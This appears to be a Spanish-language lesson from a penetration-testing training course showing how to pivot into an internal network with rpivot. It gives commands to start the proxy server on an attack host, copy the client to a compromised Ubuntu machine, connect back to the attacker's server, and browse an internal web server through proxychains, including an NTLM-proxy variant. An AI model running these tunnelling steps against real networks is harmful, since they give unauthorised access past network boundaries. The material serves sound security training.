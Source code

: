 [Rpivot](https://github.com/klsecservices/rpivot) es una herramienta de proxy SOCKS reverso escrita en Python para túneles SOCKS. Rpivot vincula una máquina dentro de una red corporativa a un servidor externo y expone el puerto local del cliente en el lado del servidor. Tomaremos el siguiente escenario, donde tenemos un servidor web en nuestra red interna (`172.16.5.135`), y queremos acceder a él usando el proxy de rpivot.

![](https://academy.hackthebox.com/storage/modules/158/77.png)

Podemos iniciar nuestro servidor de proxy SOCKS rpivot usando el siguiente comando para permitir que el cliente se conecte en el puerto 9999 y escuche en el puerto 9050 para conexiones de proxy pivot.

### Cloning rpivot

```r
sudo git clone https://github.com/klsecservices/rpivot.git
```

### Installing Python2.7

```r
sudo apt-get install python2.7
```

Podemos iniciar nuestro servidor de proxy SOCKS rpivot para conectarnos a nuestro cliente en el servidor Ubuntu comprometido usando `server.py`.

### Running server.py from the Attack Host

```r
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Antes de ejecutar `client.py`, necesitaremos transferir rpivot al objetivo. Podemos hacerlo usando este comando SCP:

### Transfering rpivot to the Target

```r
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

### Running client.py from Pivot Target

```r
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

### Confirming Connection is Established

```r
New connection from host 10.129.202.64, source port 35226
```

Configuraremos proxychains para pivotar sobre nuestro servidor local en 127.0.0.1:9050 en nuestro host de ataque, que fue inicialmente iniciado por el servidor Python.

Finalmente, deberíamos poder acceder al servidor web en nuestro lado del servidor, que está alojado en la red interna de 172.16.5.0/23 en 172.16.5.135:80 usando proxychains y Firefox.

### Browsing to the Target Webserver using Proxychains

```r
proxychains firefox-esr 172.16.5.135:80
```

![](https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

Similar al proxy pivot anterior, podría haber escenarios en los que no podamos pivotar directamente a un servidor externo (host de ataque) en la nube. Algunas organizaciones tienen [HTTP-proxy con autenticación NTLM](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configurado con el Domain Controller. En tales casos, podemos proporcionar una opción adicional de autenticación NTLM a rpivot para autenticarse a través del proxy NTLM proporcionando un nombre de usuario y contraseña. En estos casos, podríamos usar `client.py` de rpivot de la siguiente manera:

### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```r
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8
```
